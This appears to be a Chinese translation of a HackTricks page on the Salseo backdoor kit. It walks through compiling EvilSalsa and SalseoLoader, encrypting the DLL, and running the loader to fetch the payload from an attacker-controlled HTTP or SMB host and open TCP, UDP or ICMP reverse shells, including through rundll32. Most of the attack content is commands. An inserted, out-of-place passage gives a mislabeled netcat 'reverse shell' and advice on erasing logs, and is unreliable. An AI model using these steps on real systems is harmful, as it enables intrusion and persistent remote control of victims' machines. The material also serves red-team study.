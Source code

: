# Salseo

<details>

<summary><strong>从零到英雄学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks中看到你的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>

## 编译二进制文件

从github下载源代码并编译**EvilSalsa**和**SalseoLoader**。你需要安装**Visual Studio**来编译代码。

为你将要使用它们的windows盒子的架构编译这些项目（如果Windows支持x64，为那个架构编译它们）。

你可以在Visual Studio的左侧**"Build"标签**中**"Platform Target"**选择架构。

（**如果你找不到这个选项，点击**"Project Tab"**然后点击**"\<Project Name> Properties"**）

![](<../.gitbook/assets/image (132).png>)

然后，构建两个项目（Build -> Build Solution）（日志中会显示可执行文件的路径）：

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## 准备后门

首先，你需要编码**EvilSalsa.dll**。为此，你可以使用python脚本**encrypterassembly.py**，或者你可以编译项目**EncrypterAssembly**：

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows

Windows操作系统是全球最广泛使用的桌面操作系统。由于其普及性，它成为黑客攻击的主要目标之一。在Windows系统中植入后门可以让攻击者长期控制目标系统。

#### 创建后门

在Windows中创建后门的一种常见方法是使用`netcat`。`netcat`是一个功能强大的网络工具，可以用于监听端口、连接到服务以及传输数据。

例如，以下命令将在目标机器上打开一个反向shell，允许攻击者远程执行命令：

```
nc -lvp 4444 -e cmd.exe
```

#### 维持访问

为了确保即使在系统重启后也能保持对目标系统的访问，攻击者通常会在系统中创建持久性机制。这可以通过多种方式实现，例如注册表键值、计划任务或服务。

#### 清理痕迹

在执行任何后门操作后，清理痕迹是至关重要的。这包括删除系统日志、清除命令历史记录以及隐藏文件和进程。

#### 检测和防御

检测Windows后门通常涉及监控异常网络流量、检查系统日志以及使用反病毒软件。防御措施包括定期更新系统、使用复杂密码以及限制对敏感资源的访问。

通过了解这些技术，安全专家可以更好地保护系统不受未经授权的访问和操控。
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
## **执行后门**

### **获取TCP反向Shell（通过HTTP下载编码的dll）**

记得启动nc作为反向Shell监听器和一个HTTP服务器来提供编码的evilsalsa。
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **获取UDP反向Shell（通过SMB下载编码的dll）**

记得启动nc作为反向Shell监听器，以及一个SMB服务器来提供编码的evilsalsa（impacket-smbserver）。
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **获取 ICMP 反向 shell（编码后的 dll 已在受害者内部）**

**这次你需要在客户端下载一个特殊工具来接收反向 shell。下载：** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **禁用 ICMP 回复：**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### 执行客户端：
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### 在受害者内部，执行salseo操作：
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## 将 SalseoLoader 编译为导出 main 函数的 DLL

使用 Visual Studio 打开 SalseoLoader 项目。

### 在 main 函数之前添加：\[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### 为此项目安装 DllExport

#### **工具** --> **NuGet 包管理器** --> **为解决方案管理 NuGet 包...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **搜索 DllExport 包（使用浏览标签），然后按安装（并接受弹出窗口）**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png>)

在您的项目文件夹中出现了文件：**DllExport.bat** 和 **DllExport\_Configure.bat**

### **卸载** DllExport

按 **卸载**（是的，这很奇怪，但相信我，这是必要的）

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **退出 Visual Studio 并执行 DllExport\_configure**

只需**退出** Visual Studio

然后，转到您的 **SalseoLoader 文件夹** 并**执行 DllExport\_Configure.bat**

选择 **x64**（如果您要在 x64 系统中使用，那是我的情况），选择 **System.Runtime.InteropServices**（在 **Namespace for DllExport** 中）并按 **应用**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **再次使用 Visual Studio 打开项目**

**\[DllExport]** 应该不再标记为错误

![](<../.gitbook/assets/image (8) (1).png>)

### 构建解决方案

选择 **输出类型 = 类库**（项目 --> SalseoLoader 属性 --> 应用程序 --> 输出类型 = 类库）

![](<../.gitbook/assets/image (10) (1).png>)

选择 **x64 平台**（项目 --> SalseoLoader 属性 --> 构建 --> 平台目标 = x64）

![](<../.gitbook/assets/image (9) (1) (1).png>)

要**构建**解决方案：构建 --> 构建解决方案（在输出控制台中将显示新 DLL 的路径）

### 测试生成的 Dll

复制并粘贴 Dll 到您想要测试的地方。

执行：
```
rundll32.exe SalseoLoader.dll,main
```
如果没有出现错误，那么你可能已经有了一个功能性的DLL！

## 使用DLL获取shell

不要忘记使用一个**HTTP** **服务器**并设置一个**nc** **监听器**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### 命令提示符(CMD)
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
<details>

<summary><strong>零基础学习AWS黑客攻击成为英雄</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
